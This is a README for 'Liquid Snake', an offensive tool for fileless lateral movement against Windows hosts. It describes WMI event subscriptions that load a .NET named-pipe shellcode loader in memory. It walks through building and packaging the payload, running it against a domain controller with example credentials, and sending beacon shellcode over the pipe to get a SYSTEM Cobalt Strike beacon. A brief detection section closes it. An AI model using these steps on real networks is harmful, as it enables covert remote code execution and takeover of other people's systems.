





# Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

The diagram below (hopefully) clarifies the flow of data:




## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman deahtoFrodo123 isengard.local
```

NOTE: Currently thers is a bug when you explicitly set user credentials, the tool will not work in that case. It is recommended to use `make_token` or any other impersonation mechanism instead.

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Second some DCOM love..
[*] Sleeping again... long day
```

The example above uses CobaltStrike's `execute-assembly` to launch LiquidSnake:



Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```



Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\dc01\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```



If everything worked as expected, you should obtain a SYSTEM beacon:



## Detection

There are many detection opportunities to identify the abuse of this tool and in general the use of this technique:

- Module load events for `clr.dll` related to the `scrcons.exe` process
- Creation of a named pipe related to the `scrcons.exe` process 